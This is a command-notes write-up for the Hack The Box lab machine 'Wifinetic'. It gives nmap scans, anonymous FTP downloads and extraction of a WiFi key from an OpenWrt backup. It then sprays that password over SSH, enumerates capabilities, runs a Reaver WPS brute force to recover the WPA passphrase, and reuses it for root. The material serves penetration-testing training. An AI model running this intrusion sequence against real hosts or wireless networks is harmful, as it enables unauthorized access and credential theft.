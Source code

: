# 💻 HTB: Wifinetic – Command Notes

## 🧭 Recon

### Nmap
```bash
nmap -p- --min-rate 10000 10.10.11.247
nmap -p 21,22,53 -sCV 10.10.11.247
nmap -sU --top 10 10.10.11.247
```

---

## 📁 FTP Enumeration

### Anonymous Login
```bash
ftp 10.10.11.247
# Use username: anonymous
```

### Download Files
```ftp
prompt off
mget *
```

---

## 🔍 File Review

- **backup-OpenWrt-2023-07-26.tar** → Extract and review WiFi config for WPA key:
```bash
tar xf backup-OpenWrt-2023-07-26.tar
cat etc/config/wireless
```

Look for lines like:
```
option key 'VeRyUniUqWiFIPasswrd1!'
```

---

## 📡 DNS Recon (TCP/UDP 53)

### Add Hosts Entry
```bash
echo "10.10.11.247 wifinetic.htb" | sudo tee -a /etc/hosts
```

---

## 👤 Shell as `netadmin`

### Bruteforce SSH Login with Known Password
Create user file `users` with contents from `/etc/passwd`:
```bash
crackmapexec ssh 10.10.11.247 -u users -p 'VeRyUniUqWiFIPasswrd1!' --continue-on-success
```

### SSH In
```bash
sshpass -p 'VeRyUniUqWiFIPasswrd1!' ssh netadmin@10.10.11.247
```

---

## 🔍 Internal Enumeration

### Wireless Interfaces
```bash
ifconfig
iw dev
```

### Wireless Config (permissions restricted)
```bash
cat /etc/wpa_supplicant.conf
```

### SetUID & Capabilities
```bash
find / -perm -4000 -or -perm -2000 2>/dev/null
getcap -r / 2>/dev/null
```

Look for:
```
/usr/bin/reaver = cap_net_raw+ep
```

---

## 📶 WPA Brute Force – Reaver

### Target Details
- **Monitor Interface**: `mon0`
- **Target BSSID (AP MAC)**: `02:00:00:00:00:00`
- **Channel**: 1
- **SSID**: `OpenWrt`

### Run Reaver
```bash
reaver -i mon0 -b 02:00:00:00:00:00 -vv
```

Expect:
```
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
```

---

## 👑 Root Access

### Become Root via `su`
```bash
su -
# Password: WhatIsRealAnDWhAtIsNot51121!
```

### Or SSH as Root
```bash
sshpass -p 'WhatIsRealAnDWhAtIsNot51121!' ssh root@10.10.11.247
```

---

## 🔬 Beyond Root – Wash Analysis

### Why `wash -i mon0` hangs:
- `mon0` is monitor-mode and can **sniff** but not transmit.
- `wash` relies on **sending a probe** + sniffing response.
- Use `wlan2` instead for sending:
```bash
wash -i wlan2
```

### Both interfaces receive response:
- Running `wash -i wlan2` allows `wash -i mon0` to print results too (shared PHY).

